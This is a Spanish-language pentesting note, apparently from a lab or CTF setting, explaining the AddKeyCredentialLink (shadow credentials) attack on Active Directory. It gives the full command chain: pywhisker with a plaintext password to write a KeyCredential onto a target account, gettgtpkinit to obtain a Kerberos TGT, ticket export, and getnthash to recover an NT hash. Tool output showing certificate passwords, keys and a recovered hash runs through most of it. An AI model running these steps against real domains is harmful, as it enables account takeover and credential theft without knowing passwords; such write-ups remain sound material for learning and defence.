

# AddKeyCredentialLink Attack
## ¿Qué es?
- Es un ataque que permite a un atacante agregar credenciales a un usuario sin necesidad de conocer la contraseña.
- Se puede hacer con cualquier usuario, pero es más efectivo con usuarios de alto privilegio.

#### [Video](https://youtu.be/oyTEaYNs53w)

## Ataque explicado



- En este ejemplo el usuario **marcus** puede agregar credenciales a la computadora **ZPH-SVRMGMT1.ZSM.LOCAL**.
- Entonces lo que podemos hacer es usar la herramienta pywhisker para agregar credenciales a un usuario sin necesidad de conocer la contraseña.
    - `python3 pywhisker.py -d "zsm.local" -u "marcus" -p '!QAZ2wsx' --target "ZPH-SVRMGMT1$" --action "add"`

```
... etc
--target "ZPH-SVRMGMT1$" --action "add"
[*] Searching for the target account
[*] Target user found: CN=ZPH-SVRMGMT1,CN=Computers,DC=zsm,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 65727581-ddcd-d67a-efb2-b30390b73d68
[*] Updating the msDS-KeyCredentialLink attribute of ZPH-SVRMGMT1$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: 3cwbk8w6.pfx
[+] PFX exportiert nach: 3cwbk8w6.pfx
[i] Passwort für PFX: LlnaSQgj2Xgivmptjc7S
[+] Saved PFX (#PKCS12) certificate & key at path: 3cwbk8w6.pfx
[*] Must be used with password: LlnaSQgj2Xgivmptjc7S
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

- Importante la contraseña: **LlnaSQgj2Xgivmptjc7S**

- Luego con la otra herramienta PKINITtools podemos obtener un TGT.
    - `python3 gettgtpkinit.py -cert-pem key_cert.pem -key-pem key_priv.pem DOMAIN/USER`
    - en este caso sería: `python3 gettgtpkinit.py -cert-pem 3cwbk8w6.pem -key-pem 3cwbk8w6.key ZSM.LOCAL/marcus cache.ccache`
- Después hay que exportar el ticket: `export KRB5CCNAME=$PWD/cache.ccache`
- Fijamos que esté cargado con `klist`

```bash
┌──(kali㉿kali)-[~/PKINITtools]
└─$ python3 gettgtpkinit.py -cert-pem /home/kali/Desktop/boxes/certified/xBWiCOIx_cert.pem -key-pem /home/kali/Desktop/boxes/certified/xBWiCOIx_priv.pem CERTIFIED.HTB/MANAGEMENT_SVC management_svc.ccache
2025-04-09 20:22:14,587 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-04-09 20:22:14,594 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-04-09 20:22:36,051 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-04-09 20:22:36,051 minikerberos INFO     4de618e5fea336c8dbd69b96766e6a9c183b924f4880652b1662841d6fc7ef95
INFO:minikerberos:4de618e5fea336c8dbd69b96766e6a9c183b924f4880652b1662841d6fc7ef95
2025-04-09 20:22:36,053 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

``` 


## Conseguir NT hash del usuario
- El comando anterior nos tuvo que haber dado un as-rep hash.
- Con este hash podemos solicitar con getnthash.py el NT.
- `python3 getnthash.py -key AS-REP-ENCRYPTION-KEY DOMAIN/USER`
- El as-rep encryption key es el que nos dio el comando anterior.
- Y esto te va a dar el NT-HASH recuperado.


```bash

┌──(kali㉿kali)-[~/PKINITtools]
└─$ python3 ./getnthash.py -key 4de618e5fea336c8dbd69b96766e6a9c183b924f4880652b1662841d6fc7ef95 CERTIFIED.HTB/MANAGEMENT_SVC
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
                                                                                                                       
``` 